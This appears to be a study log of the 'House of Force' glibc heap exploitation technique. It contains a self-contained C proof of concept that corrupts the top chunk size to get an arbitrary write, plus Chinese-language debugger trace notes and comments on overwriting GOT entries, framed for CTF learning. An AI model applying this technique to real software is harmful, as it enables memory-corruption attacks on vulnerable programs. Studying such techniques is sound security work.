






# house_of_force.log

## source code
```cpp
/*

   This PoC works also with ASLR enabled.
   It will overwrite a GOT entry so in order to apply exactly this technique RELRO must be disabled.
   If RELRO is enabled you can always try to return a chunk on the stack as proposed in Malloc Des Maleficarum 
   ( http://phrack.org/issues/66/10.html )

   Tested in Ubuntu 14.04, 64bit.

*/


#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main(int argc , char* argv[])
{
	printf("\nWelcome to the House of Force\n\n");
	printf("The idea of House of Force is to overwrite the top chunk and let the malloc return an arbitrary value.\n");
	printf("The top chunk is a special chunk. Is the last in memory "
		"and is the chunk that will be resized when malloc asks for more space from the os.\n");

	printf("\nIn the end, we will use this to overwrite a variable at %p.\n", bss_var);
	printf("Its current value is: %s\n", bss_var);


	printf("\nLet's allocate the first chunk, taking space from the wilderness.\n");
	intptr_t *p1 = malloc(256);
	printf("The chunk of 256 bytes has been allocated at %p.\n", p1);

	printf("\nNow the heap is composed of two chunks: the one we allocated and the top chunk/wilderness.\n");
	int real_size = malloc_usable_size(p1);
	printf("Real size (aligned and all that jazz) of our allocated chunk is %d.\n", real_size);

	printf("\nNow let's emulate a vulnerability that can overwrite the header of the Top Chunk\n");

	//----- VULNERABILITY ----
	intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size);
	printf("\nThe top chunk starts at %p\n", ptr_top);

	printf("\nOverwriting the top chunk size with a big value so we can ensure that the malloc will never call mmap.\n");
	printf("Old size of top chunk %#llx\n", *((unsigned long long int *)ptr_top));
	ptr_top[0] = -1;
	printf("New size of top chunk %#llx\n", *((unsigned long long int *)ptr_top));
	//------------------------

	printf("\nThe size of the wilderness is now gigantic. We can allocate anything without malloc() calling mmap.\n"
	   "Next, we will allocate a chunk that will get us right up against the desired region (with an integer\n"
	   "overflow) and will then be able to allocate a chunk right over the desired region.\n");

	unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*2 - (unsigned long)ptr_top;
	printf("\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size,\n"
	   "we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
	void *new_ptr = malloc(evil_size);
	printf("As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr);

	void* ctr_chunk = malloc(100);
	printf("\nNow, the next chunk we overwrite will point at our target buffer.\n");
	printf("malloc(100) => %p!\n", ctr_chunk);
	printf("Now, we can finally overwrite that value:\n");

	printf("... old string: %s\n", bss_var);
	printf("... doing strcpy overwrite with \"YEAH!!!\"...\n");
	strcpy(ctr_chunk, "YEAH!!!");
	printf("... new string: %s\n", bss_var);


	// some further discussion:
	//printf("This controlled malloc will be called with a size parameter of evil_size = malloc_got_address - 8 - p2_guessed\n\n");
	//printf("This because the main_arena->top pointer is setted to current av->top + malloc_size "
	//	"and we \nwant to set this result to the address of malloc_got_address-8\n\n");
	//printf("In order to do this we have malloc_got_address-8 = p2_guessed + evil_size\n\n");
	//printf("The av->top after this big malloc will be setted in this way to malloc_got_address-8\n\n");
	//printf("After that a new call to malloc will return av->top+8 ( +8 bytes for the header ),"
	//	"\nand basically return a chunk at (malloc_got_address-8)+8 = malloc_got_address\n\n");

	//printf("The large chunk with evil_size has been allocated here 0x%08x\n",p2);
	//printf("The main_arena value av->top has been setted to malloc_got_address-8=0x%08x\n",malloc_got_address);

	//printf("This last malloc will be served from the remainder code and will return the av->top+8 injected before\n");
}
```

## environment
Ubuntu x64 libc.so.23
gdb-peda

## trace
0x602060是bss_var所在地址，实际上bss_var应该在.data段，这里应该是笔者记错了，但无伤大雅。


0x603410是新分配的chunk：


通过malloc_usable_size(p1)找到top chunk的头（curSize字段，preSize此时已借给prev chunk）。
改写top chunk的curSize大小为-1，也就是全F：


这样一来就没有了动态阈值的mmap参与进来，都是直接从top chunk切，尽管top chunk并没有那么大。
为了覆盖到bss_var，下一次我们需要分配evil_size大小的chunk：


此时，top chunk正常分配出evil_size大小的chunk，一路延展到.data段的bss_var。且bss_var的起始地址前16bytes处成为了新的top chunk：


再次malloc时，就返回了bss_var的地址，然后就可以为所欲为了。这里尺寸选择了100：


实际上分配了(100+16-8)align(16)=112=0x70的chunk。


further discussion讨论了关于覆盖malloc got address的想法，实际上你可以覆盖bss_var，就可以覆盖其他的货色，无非就是计算evil_size的大小罢了。具体覆盖谁，用什么来覆盖需要考察具体的环境，找出突破口，这在ctf题中是非常常见的。